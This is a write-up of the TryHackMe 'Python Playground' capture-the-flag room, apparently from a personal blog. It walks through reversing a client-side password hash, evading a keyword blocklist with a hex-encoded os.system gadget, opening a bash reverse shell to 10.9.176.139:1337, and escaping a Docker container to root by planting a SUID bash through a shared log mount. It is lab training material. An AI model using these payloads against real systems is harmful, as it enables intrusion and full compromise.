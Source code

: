 ```yaml
---
title: "Python playground"
tags: writeup tryhackme
---
```


# [tryhackme/pythonplayground](https://tryhackme.com/room/pythonplayground)

## enumeration

A quick nmap scan reveals port 22 and 80 are open
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCx7S4TYtpO65Nt0ht3DaAt+X+WFQc/ytjz+/EB+klXHfLlTwTHBbjYoF7Dh3sFV+wc57YarYGvNrq+2mlMPxMzB9iYJrpX/ByeLgxWeKdIizTAUjq3kL9w3gZ3sFchTM1QNdHOiIPAkosueaOcIfa9HLPXc/H8jR/M3abJzmH6lr7wSKUI/E0i+mLDJCXHep5Im8t
/uK+GtfaTdPuJR3TezNAJ64yFil+bE70KbYIj0sY3XxPQ2IM+qwxCKPCMhi1MCL7qyTsZvCEzM0FfxPFZX3fxPKzyzjuSBG/bTU0da2O8Ndox8xS8r/QszCUqvRHK6bsIeoaGKcg5N3OUKvPP
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNOeXRUSHKqlSTLGWSqCdIrgQJUnCMaMUlDoaVxRAdPxKyN24fmEiQwRsh96GPSRBvFqMzyQF7ijTbImcVcNKZY=
|   256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILd7Nx4Jn1pD6oKxcr+iZD38mwLVgDSj6pSOzqK4Vl1w
80/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Python Playground!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![index.html](../../../assets/pythonplayground/index.png)

On the main page a blacklist is mentioned so some header faking with `X-Forwarded-For` was attempted but no luck.

While I was messing around trying to get around a blacklist feroxbuster found `/admin.html`

![feroxscan](../../../assets/pythonplayground/feroxscan.png)

This reveals an admin backend page

![admin](../../../assets/pythonplayground/admin.png)

the javascript on this page is the interesting part here

```javascript
// I suck at server side code, luckily I know how to make things secure without it - Connor

function string_to_int_array(str){
const intArr = [];

for(let i=0;i<str.length;i++){
  const charcode = str.charCodeAt(i);

  const partA = Math.floor(charcode / 26);
  const partB = charcode % 26;

  intArr.push(partA);
  intArr.push(partB);
}

return intArr;
}

function int_array_to_text(int_array){
let txt = '';

for(let i=0;i<int_array.length;i++){
  txt += String.fromCharCode(97 + int_array[i]);
}

return txt;
}

document.forms[0].onsubmit = function (e){
  e.preventDefault();

  if(document.getElementById('username').value !== 'connor'){
    document.getElementById('fail').style.display = '';
    return false;
  }

  const chosenPass = document.getElementById('inputPassword').value;

  const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))));

  if(hash === 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'){
    window.location = 'super-secret-admin-testing-panel.html';
  }else {
    document.getElementById('fail').style.display = '';
  }
  return false;
}
```

The hash algorithm looks like it is reversible but for now we can go straight to the `super-secret-admin-testing-panel.html`

![testpanel](../../../assets/pythonplayground/testpanel.png)

Here we can actually execute some code, `print('hello')` works as expected but pasting a reverse shell we get denied.

![testpanel blocked](../../../assets/pythonplayground/testpanel-denied.png)

It looks like there is some kind of detection for malicious code. Lets try to get some things past it, firstly import.
Checking my python builtins an alternative to `import os` is `os = __import__('os')`, lo and behold this worked :).
The next step is executing shell commands, however `__import__('os').system('id')` is also blocked. My first assumption
here was system was being filtered, luckily we can use hex strings to get around this. I ended up with this gadget for
executing arbritary system commands.

```python
getattr(__import__('os'), '\x73\x79\x73\x74\x65\x6D')('id')
```

`\x73\x79\x73\x74\x65\x6D` is just `system` hex encoded: if you run `print('\x73\x79\x73\x74\x65\x6D')` it would print `system`.

We can now pop a reverse shell, I used this one (adapted from [revshells](https://revshells.com))

```shell
$ bash -c "bash -i >& /dev/tcp/10.9.176.139/1337 0>&1"
```

On this system we find the first flag (`/root/flag1.txt`) however it seems to be a docker container, and because we are already root I doubt there are any more flags here.
It's time to try getting into the ssh. 

Now we have our shell we can check what blacklist they were using by dumping the source code in `/root/app/index.js`.
```javascript
function isAllowed(code){
    if(typeof code !== 'string'){
        return false;
    }
    if(code.indexOf('import ') >= 0){
        return false;
    }
    if(code.indexOf('eval') >= 0){
        return false;
    }
    if(code.indexOf('.system') >= 0){
        return false;
    }
    if(code.indexOf('exec') >= 0){
        return false;
    }

    return true;
}
```

It was just a simple word filter, nice.

## Finding connor's password
By reverse engineering connor's "secure" hash algorithm I came up with this javascript code to reverse it. Each function
is essentially the inverse of what was in the original javascript.
```javascript
const hash = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu';

function string_to_int(string) {
  const arr = [];
  for (let i=0;i<string.length;i++) {
    arr.push(string.charCodeAt(i)-97);
  }
  return arr;
}

function int_to_string(ints) {
  let string = '';
  for (let i=0;i<ints.length;i+=2) {
    string += String.fromCharCode((ints[i]*26) + ints[i+1]);
  }
  return string;
}

console.log(int_to_string(string_to_int(int_to_string(string_to_int(hash)))));
```

Using this I found connor's password and was able to login to ssh retrieving the second flag (`/home/connor/flag2.txt`).

## Getting root
Now we can ssh into the host machine it's a fair guess the final flag is the host's root user. Getting there was a bit of
a guessing game. The usually evaluation yields no results.

- `sudo -l`: not allowed
- `find / -perm /6000 2>/dev/null`: only common binaries
- `linpeas.sh`: no real results a few possibilities for vulnerable versions of `sudo` and `pkexec` but they didn't work

We know the system has docker but we don't have permission to control it as connor. Luckily after messing around with
docker commands I remembered some recon I did on the first reverse shell.

If we go back the original reverse shell into the docker container and run
```shell
# mount -l
```

![docker mounts](../../../assets/pythonplayground/docker-mounts.png)

A few of these mounts are sus docker bindings, after doing some investigating `/mnt/log` looks like it is `/var/log` on
the host system, this is very good.

Testing this theory we can create a file here on our reverse shell
```shell
# cd /mnt/log
# touch test
```

And then if we view the directory from our ssh session we can see the newly created file :).

Exploiting this is not too hard, as we are root in the docker container we can do root things to the files in this directory.
First I made a folder for connor to copy into
```shell
# mkdir hak
# chmod 777 hak
# cd hak
```

Then in our ssh shell we can copy the local copy of bash here (we need the local copy as the docker containers copy is copiled
with different dynamic links).
```shell
$ cp /bin/bash /var/log/hak
```

Now back in the docker container we can make this a SUID binary.
```shell
# chown root:root bash
# chmod +xs bash
```

Now we've made our own SUID binary and can exploit to get root on the host!

![escalate](../../../assets/pythonplayground/escalate.png)
